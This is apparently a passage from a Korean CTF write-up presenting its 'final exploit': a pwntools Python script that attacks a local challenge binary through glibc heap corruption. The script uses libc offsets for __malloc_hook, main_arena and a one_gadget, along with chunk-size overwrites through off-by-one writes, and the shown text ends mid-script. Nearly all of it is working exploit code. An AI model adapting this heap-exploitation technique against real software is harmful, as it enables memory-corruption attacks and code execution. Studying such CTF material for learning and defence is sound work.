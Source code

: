 최종 익스플로잇은 다음과 같다.

```python
# exploit_problem.py

from pwn import *

p = process('./problem')

offset_mallochook = 0x1e4c30 # offset of &__malloc_hook from libc base
offset_mainarena = 0x1e4c40 # offset of main_arena() from libc base
offset_onegadget = 0x106ef8 # offset of one_gadget from libc base

def See():
    p.recvuntil(">\n")
    p.sendline("1")

def Join(wannabe, memo):
    p.recvuntil(">\n")
    p.sendline("2")
    p.recvuntil(">\n")
    p.sendline(str(wannabe))
    p.recvuntil("> ")
    p.send(memo)

def BeSavior(index):
    p.recvline(">\n")
    p.sendline("3")
    p.recvuntil(">")
    p.sendline(str(index))

Join(1,"\n") # index: 0, Vocal 1
Join(2, "\n") # index: 1, Guitar 1
Join(5, "\n") # index: 2, Keyboard 1
Join(1, "\n") # index: 3, Vocal 2
Join(6, "\n") # index: 4, Trumpet 1

for i in range(3):
    Join(3, "\n") # index: 5,6,7, Bassist 3

for i in range(3):
    Join(5, "\n") # index: 8,9,10, Keyboard 4

BeSavior(5)
BeSavior(6)
BeSavior(7)
BeSavior(8)
BeSavior(9)
BeSavior(10)

BeSavior(3) 
Join(1, "A"*0x17+"\xc1") # index: 11, Vocal 3
BeSavior(4)

BeSavior(2) # unsortbin

BeSavior(1)
BeSavior(0)
Join(1, "A"*0x17+"\x61") # index: 12, Vocal 4
BeSavior(1)
Join(4, "A"*0x3e+"\n") # index: 13, Drummer 1

See()
p.recvuntil("Drum : ")
```